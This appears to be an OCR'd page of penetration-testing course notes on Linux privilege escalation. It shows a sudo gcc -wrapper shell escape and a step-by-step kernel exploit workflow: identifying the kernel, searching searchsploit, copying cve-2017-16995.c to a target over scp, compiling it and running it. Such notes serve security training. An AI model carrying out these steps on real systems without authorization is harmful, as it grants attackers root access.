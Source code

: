 ```Shell
sudo gcc -wrapper /bin/sh,-s .
```
### 17.4.3. Exploiting Kernel Vulnerabilities
#### Identify kernel info
```Shell
cat /etc/issue
```

```Shell
uname -r
```

```Shell
arch
```
#### Search for an appropriate exploit
```Shell
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
#### After finding exploit, transfer to target
```Shell
scp cve-2017-16995.c joe@192.168.123.216:
```
#### Compile on the target
```Shell
gcc cve-2017-16995.c -o cve-2017-16995
```
#### Inspect the exploit's architecture
```Shell
file cve-2017-16995
```
#### Run the exploit
```Shell
./cve-2017-16995
```